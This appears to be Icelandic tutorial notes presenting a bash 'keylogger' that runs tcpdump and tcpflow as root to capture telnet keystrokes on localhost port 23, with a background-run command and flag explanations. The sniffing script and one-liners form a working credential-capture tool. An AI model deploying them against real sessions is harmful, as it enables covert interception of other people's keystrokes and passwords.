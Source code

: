 
## Skriptu keylogger

```bash
#!/bin/bash
  
# Uses tcpdump to extract keystrokes from a telnet session
# on localhost port 23 and tcpflow to format output

# Check if user is running as root
if [[ $EUID -ne 0 ]]; then
    echo "Please run as root:"
    echo "sudo $0"
    exit 1
fi

# Output file
keylog=$PWD/keylogs

# Log keystrokes to port 23
sudo tcpdump 'tcp dst port 23 and tcp[13] & 8 != 0' -i lo -l -w - | tcpflow -C -r - >> $keylog
```

```
sudo ./telnet_keylogger.sh & disown
```

---

## Skipanir

Keylogger + **stdout**
```
sudo tcpdump 'tcp src port 23 and tcp[13] & 8 != 0' -i lo -l -w - | tcpflow -C -r -
```

Keylogger
```
sudo tcpdump 'tcp dst port 23 and tcp[13] & 8 != 0' -i lo -l -w - | tcpflow -C -r -
```

----

* <span style="color:blue">`tcpdump`</span>
  * Forrit til að fylgjast með umferð á *network*
* <span style="color:blue">`tcp dst port 23`</span>
  * Hlustum á allt sem er sent á port 23
* <span style="color:blue">`tcp[13] & 8 != 0`</span>
  * Síum þannig að **psh** pakkar eru skoðaðir
* <span style="color:blue">`-i lo`</span>
  * Við hlustum á localhost
* <span style="color:blue">`-l`</span>
  * Buffer á **stdout**
* <span style="color:blue">`-w -`</span>
  * Prentum beint út í **stdout**

----

* <span style="color:blue">`tcpflow`</span>
  * Forrit til að fylgjast með umferð á *network*
* <span style="color:blue">`-C`</span>
  * Prentar út í **stdout** án tcp header
* <span style="color:blue">`-r`</span>
  * Les út úr **stdout**, parað með `-w`
----